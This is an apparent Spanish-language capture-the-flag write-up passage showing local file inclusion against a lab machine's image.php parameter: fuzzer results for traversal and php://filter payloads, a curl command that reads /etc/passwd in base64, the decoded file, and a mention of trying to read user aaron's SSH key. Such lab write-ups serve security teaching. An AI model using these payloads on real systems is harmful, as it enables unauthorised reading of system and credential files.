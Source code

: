 ```bash
000000005:   200        0 L      1 W        2152 Ch     "php://filter/convert.base64-encode/resource=/etc/passwd"                                                              
000000002:   200        0 L      3 W        25 Ch       "file:///etc/passwd"                                                                                                   
000000006:   200        0 L      0 W        0 Ch        "..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"                                                             
000000009:   200        0 L      3 W        25 Ch       "../../../../../../../etc/passwd%00"                                                                                   
000000004:   200        0 L      3 W        25 Ch       "....//....//....//....//....//....//....//etc/passwd"
```
Todas responden 25 caracteres menos dos inyecciones:  
1. php://filter/resource=/etc/passwd
2. php://filter/convert.base64-encode/resource=/etc/passwd

De la primera forma te devuelve la data de una, en la  segunda inyección te devuelve la data en base 64 así que la decodeamos:
```bash
❯ curl -s -X GET "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd" | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
aaron:x:1000:1000:aaron:/home/aaron:/bin/bash
```
Tenemos el usuario aaron. Intento sacar su id_rsa pero no funciona.
